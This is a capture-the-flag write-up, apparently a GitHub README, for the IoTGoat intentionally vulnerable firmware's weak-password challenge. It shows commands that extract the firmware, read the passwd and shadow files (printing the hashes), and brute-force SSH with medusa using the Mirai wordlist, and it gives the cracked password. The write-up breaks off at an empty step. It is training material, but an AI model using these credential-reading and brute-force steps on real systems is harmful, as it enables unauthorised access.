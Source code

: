 # Challenge 1:Weak, Guessable, or Hardcoded Passwords

Step 1: Downloaded the IoTGoat-raspberry-pi2.img from the github

Step 2: Extracted Firmware Filesystem by the command ```binwalk -e IoTGoat-raspberry-pi2.img```.

Step 3: Viewed the content of the file _IoTGoat-raspberry-pi2.img.extracted/squashfs-root/etc/passwd* by ```cat _IoTGoat-raspberry-pi2.img.extracted/squashfs-root/etc/passwd```.Founded root has access to /bin/ash, iotgoatuser also has access to /bin/ash.
       
Step 4: Checked the /etc/shadow file for password hashes by ```cat __IoTGoat-raspberry-pi2.img.extracted/squashfs-root/etc/shadow``` and founded the hashes root: $1$Jl7H1VOG$Wgw2F/C.nLNTC.4pwDa4H1
iotgoatuser: $1$79bz0K8z$Ii6Q/if83F1QodGmkb4Ah.

Step 5: Downloaded the git repo SecLists by danielmiessler to brute force the passwords.

Step 6: Separated the passwords from the default list by ```awk '{print $2}' SecLists/Passwords/Malware/mirai-botnet.txt > SecLists/Passwords/Malware/mirai-botnet_passwords.txt```

Step 7: Used the tool medusa to brute force every password stored in the file mirai-botnet_passwords.txt by ```medusa -u iotgoatuser -P ~/Desktop/SecLists-master/Passwords/Malware/mirai-botnet_passwords.txt -h 192.168.137.183 -M ssh```

Step 8: Founded the password by brute forcing and it is: ```7ujMko0vizxv``` 

Step 9: Logged in to the iotgoatby the ssh command ```ssh -o HostKeyAlgorithms=+ssh-rsa iotgoatuser@192.168.137.183 -p 22 ```. ```-o HostKeyAlgorithms=+ssh-rsa``` is used due to the ssh+rsa certification

Step 10:
